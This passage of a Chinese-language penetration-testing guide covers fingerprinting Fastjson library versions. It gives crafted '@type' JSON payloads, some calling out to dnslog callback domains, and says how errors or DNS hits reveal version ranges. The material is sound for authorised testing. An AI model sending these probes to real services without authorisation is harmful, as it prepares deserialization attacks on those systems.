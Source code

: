 ```json
deserialize inet adress error
```

### 2.2.4 判断1.2.10&lt;=version&lt;=1.2.47

`payload18`：

```json
[{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},{"@type":"java.io.ByteArrayOutputStream"},{"@type":"java.net.InetSocketAddress"{"address":,"val":"6m2csu.dnslog.cn"}}]
```

除非对方有以下代码，否则`1.2.47`以后的版本都会报错：

```java
ParserConfig.getGlobalInstance().addAccept("java.lang.Class");
ParserConfig.getGlobalInstance().addAccept("java.io.ByteArrayOutputStream");
```

### 2.2.5 判断1.2.9&lt;=version&lt;=1.2.36

`payload19`：

```json
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://tbqnrzguzp.dgrh3.cn"}}""}
```

如果不报错、`dnslog`**无响应**，说明版本处于`1.2.9`至`1.2.36`。

### 2.2.6 判断1.2.37&lt;=version&lt;=1.2.83

还是上面的`payload19`，如果`dnslog`有响应，说明处于`1.2.37`和`1.2.83`之间。

### 2.2.7 判断1.2.9&lt;=version&lt;=1.2.83

`payload20`：

```json
Set[{"@type":"java.net.URL","val":"http://wobfyhueao.dgrh3.cn"}]
```

### 2.2.8 判断version≠(1.2.24 || 1.2.83)

`payload21`：

```json
{"page":{"pageNumber":1,"pageSize":1,"zero":{"@type":"java.lang.Exception","@type":"org.XxException"}}}
```

只有`1.2.25<=version<=1.2.80`的时候会报错，其他情况包括`1.1`和`2.0`的版本都是不会报错的。

### 2.2.9 判断1.2.69&lt;=version&lt;=1.2.83

`payload22`：

```json
{"page":{"pageNumber":1,"pageSize":1,"zero":{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"}}}
```
